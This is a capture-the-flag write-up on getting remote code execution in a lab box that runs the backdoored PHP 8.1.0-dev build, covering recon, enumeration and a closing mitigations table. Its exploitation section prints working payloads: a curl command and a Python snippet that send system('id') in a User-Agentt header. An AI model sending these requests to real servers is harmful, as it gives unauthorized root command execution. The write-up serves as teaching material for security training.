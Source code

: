 [PHP Exploit - User-Agentt RCE](https://tryhackme.com/room/agentt)

**Author:** your-handle  
**Date:** 21/05/2025  
**Platform:** Custom / CTF  
**Difficulty:** Medium  
**Objective:** Exploit vulnerable PHP version to gain remote code execution and capture the flag.

---

## Table of Contents  
- [1. Summary](#1-summary)  
- [2. Methodology](#2-methodology)  
- [3. Reconnaissance](#3-reconnaissance)  
- [4. Enumeration](#4-enumeration)  
- [5. Exploitation](#5-exploitation)  
- [6. Privilege Escalation](#6-privilege-escalation)  
- [7. Post Exploitation](#7-post-exploitation)  
- [8. Flags / Proof](#8-flags--proof)  
- [9. Mitigations](#9-mitigations)  
- [10. Notes](#10-notes)

---

## 1. Summary  
**IP/URL:** 10.10.X.X  
**Service/Ports:** 80/HTTP  
**Entry Point:** PHP 8.1.0-dev via User-Agentt header  
**Privilege Escalation:** Not required (root shell from exploit)  
**Outcome:** Remote command execution and flag captured

---

## 2. Methodology  
Following the PTES (Penetration Testing Execution Standard):  
1. Reconnaissance  
2. Scanning & Enumeration  
3. Exploitation  
4. Privilege Escalation  
5. Post-Exploitation  
6. Reporting

---

## 3. Reconnaissance  
### Passive: None  

### Active: Ran Nmap with full version detection.  
Command used: nmap -sS -sV -A -Pn 10.10.X.X  
Result: Port 80 open, running PHP cli server 5.5 or later (PHP 8.1.0-dev)

---

## 4. Enumeration  
- Ran gobuster, initially showed nothing  
- Explored the website manually; page was static and non-interactive  
- Tried XSS and path traversal payloads — nothing worked  
- Found image URL in GET request: https://source.unsplash.com/Mv9hjnEUHR4/60x60 (stock image, not exploitable)  
- Revisited Nmap scan and focused on PHP version  
- Found public exploit for PHP 8.1.0-dev

---

## 5. Exploitation  
Vulnerability: PHP 8.1.0-dev evaluates the User-Agentt header as PHP code  
Exploit: Exploit-DB 49933  
Technique: Send HTTP request with header User-Agentt: system('id');  
Result: Command executed remotely on the server  
Example request: curl -H "User-Agentt: system('id');" http://10.10.X.X  
Python PoC: requests.get(url, headers={"User-Agentt": "system('id');"})  
Access: Code executed as root

---

## 6. Privilege Escalation  
Not required. Initial code execution was already under root privileges.

---

## 7. Post Exploitation  
Searched for flag with: find / -name "flag*" 2>/dev/null  
Enumerated file system  
No pivoting necessary due to root access

---

## 8. Flags / Proof  

Other Credentials: N/A

---

## 9. Mitigations  
| Vulnerability                     | Risk  | Suggested Mitigation                         |  
|----------------------------------|-------|-----------------------------------------------|  
| PHP 8.1.0-dev code execution     | High  | Do not run development versions in production |  
| Arbitrary header interpretation | High  | Sanitize and validate all HTTP headers         |  
| Lack of privilege separation     | High  | Run web services as limited users             |

---

## 10. Notes  
Time spent: ~30 min
Tools used: nmap, gobuster, curl, Python (requests)  
Lessons learned: Always check the exact version of services; developer versions can introduce dangerous behavior like arbitrary code execution via headers.





















